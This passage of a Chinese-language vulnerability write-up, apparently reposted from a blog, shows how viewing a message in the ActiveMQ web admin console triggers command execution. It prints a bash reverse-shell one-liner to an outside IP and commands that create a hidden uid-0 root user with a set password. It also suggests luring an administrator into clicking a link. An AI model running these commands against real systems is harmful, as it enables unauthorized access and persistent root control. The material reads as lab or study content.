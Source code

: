 访问 web 管理页面，点击消息：

```
http://192.168.0.11:8161/admin/browse.jsp?JMSDestination=event
```

![](https://mmbiz.qpic.cn/mmbiz_png/2ibFSib4guKle9w4MEIBQ6bEib4e340iaamSx8OVzClGF9x9fm4ibPnWw3PVWvlmNlYiaKk6b8H9FAh8EglXqSx6sC4g/640?wx_fmt=png)

成功执行命令，如下图所示，多了 success 目录：

![](https://mmbiz.qpic.cn/mmbiz_png/2ibFSib4guKle9w4MEIBQ6bEib4e340iaamSCFxmGgYbQbOiawh9fib0qAve9hia9xQA0kv7b4ECOzJrDhjAzWicBj7bwQ/640?wx_fmt=png)

不仅如此我们还可以修改命令，反弹 shell

```
bash -i >& /dev/tcp/192.168.31.41/8080 0>&1
```

测试时，反弹 shell 失败了，原因不明。

还可以修改命令，增加用户并提权

```
useradd -g root -s /bin/bash -u 10010 test //添加test用户并将其添加到root组
sed -i "s/test:x:10010/test:x:0/g" /etc/passwd  //将passwd中的test的uid修改为0
echo "test:sd123456" | chpasswd  //为test用户设置一个密码
```

![](https://mmbiz.qpic.cn/mmbiz_png/2ibFSib4guKle9w4MEIBQ6bEib4e340iaamSHtj1P1L2cD4lrgBnMrdNpOA57u9L0ntJ49XIoMtiag7BzIzxp3dmgDw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/2ibFSib4guKle9w4MEIBQ6bEib4e340iaamSHZCXic3cJl0bbL3dSznibT317nOxnqlesqI7WRIrI5HJo2XEKl8MpLCQ/640?wx_fmt=png)

局限性

   通过 web 管理页面访问消息并触发漏洞这个过程需要管理员权限。                         在没有密码的情况下，我们可以诱导管理员访问我们的链接以触发，                     或者伪装成其他合法服务需要的消息，等待客户端访问的时候触发。                                                                                                                                     

转发来源，侵删 ：https://blog.csdn.net/zhang8907xiaoyue/article/details/79659952

![](https://mmbiz.qpic.cn/mmbiz_gif/3RhuVysG9LfbzQb75ZqoK2T2YO9XTQYD0aDUibvcxdbLRqzCwlkYcn0HppvXpZuenRzjX8ibhzcibJJge9Bw9xc8A/640?wx_fmt=gif)

  

**戳**

**“阅读原文”**

**体验免费靶场！**